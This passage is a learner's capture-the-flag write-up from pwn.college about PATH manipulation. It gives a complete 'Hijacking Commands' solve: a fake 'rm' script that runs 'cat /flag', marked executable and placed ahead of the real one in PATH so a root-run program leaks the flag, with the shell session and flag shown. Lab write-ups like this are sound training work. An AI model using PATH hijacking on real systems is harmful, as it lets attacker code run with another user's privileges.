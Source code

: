 I learnt how to create my own commands by writing a script and adding its directory to the `PATH`. I also learnt that the `PATH` needs to include directories for all the commands that will be used, including those used by my script.

## References

The problem statement provided was the reference used.

```
...make a shell script called win, add its location to the PATH, and enable /challenge/run to find it!
Hint: /challenge/run runs as root and will call win. Thus, win can simply cat the flag file.
Again, the win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory.
But remember, if you do that, your win command won't be able to find cat.
```

# 5. Hijacking Commands

This challenge prompted me to hijack a command by creating a fake program and manipulating the `PATH`.

## My Solve

**Flag:** `pwn.college{Au664dOlsRLQFTHeEzvq2cZ20Bk.QX3cjM1wCM2EDNzEzW}`

To stop `/challenge/run` from deleting the flag, I created my own script named `rm` that would `cat /flag` instead. I made it executable with `chmod +x`, then prepended the current directory (`.`) to my `PATH`. This made the shell find my `rm` script before the real one, so when `/challenge/run` tried to delete the flag, it printed it instead.

Content of my `rm` script:

```
#!/bin/bash

cat /flag
```

```
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ PATH=".:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{Au664dOlsRLQFTHeEzvq2cZ20Bk.QX3cjM1wCM2EDNzEzW}
```

## What I Learned

I learnt about PATH hijacking. By creating a script with the same name as a system command and placing its directory at the beginning of the `PATH`, you can make the shell execute your script instead of the real command.

